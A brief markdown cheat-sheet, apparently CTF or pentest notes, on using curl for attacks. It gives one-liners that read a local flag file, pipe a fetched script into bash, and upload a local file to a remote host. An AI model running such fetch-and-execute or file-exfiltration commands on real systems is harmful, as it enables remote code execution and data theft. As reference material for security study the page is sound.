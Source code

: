 ```yaml
---
layout: post
title: "cURL"
keywords: "curl, lfi"
---
```

#### Read local file
curl does not support accessing file:// URL remotely

```
curl file:///flag.txt
```

#### Fetch and execute
```
curl http://127.0.0.1/script.sh | bash
```

#### Reverse upload file
This transfers the specified local file to the remote URL.

```
curl -T /flag.txt 127.0.0.1
```